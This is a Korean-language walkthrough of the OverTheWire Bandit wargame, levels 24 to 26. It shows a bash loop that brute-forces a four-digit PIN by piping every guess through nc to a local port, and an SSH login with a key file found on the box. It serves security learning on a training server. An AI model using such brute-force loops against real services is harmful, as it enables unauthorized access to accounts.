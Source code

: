 ```
1분이 지나면 이 쉘파일도 삭제된다.
삭제가 됬다는 건 위에서 /tmp/nor1/normal_text에 비밀번호가 들어가있다는 말이다.
```
```
#)24->25
문제가 30002포트에 핀코드 4자리 입력하면된다.
```
<img src="https://raw.githubusercontent.com/seongdongjo/Security/refs/heads/main/%ED%95%B4%ED%82%B9%EB%B3%B4%EC%95%88%EA%B4%80%EB%A0%A8img/12.PNG" width="700" height="200" /><br><br>

```
근데 4자리 숫자를 찾아야하네...

* 무작위 대입 공격

> mkdir bandit24_normaltic
> vi test.sh
#!/bin/bash //이 스크립트는 /bin/bash쉘로 실행하겠다.

for i in {1..9}
do
    echo $i
done

실행하면
1
2
3
4
5
6
7
8
9

for i in {0000..9999}
do
    echo "UoMYTrfrBF~ $i"
done

//결과를 저쪽에다 넘긴다.
//grep -v 는 특정글자가 포함되지 않은 것만 찾겠다.
> ./test.sh | nc localhost 30002 | grep -v "Wrong"
```
```
#)25->26
> ls -l로 보면 bandit26.sshkey가 있다.
> ssh -i bandit26.sshkey bandit26@localhost -p 2220
근데 로그인이 안됨.
문제에서는 /bin/bash가 아니라고 나온다. 그러면 로그인쉘이 뭔지보야됨
```
<img src="https://raw.githubusercontent.com/seongdongjo/Security/refs/heads/main/%ED%95%B4%ED%82%B9%EB%B3%B4%EC%95%88%EA%B4%80%EB%A0%A8img/13.PNG" width="700" height="200" /><br><br>
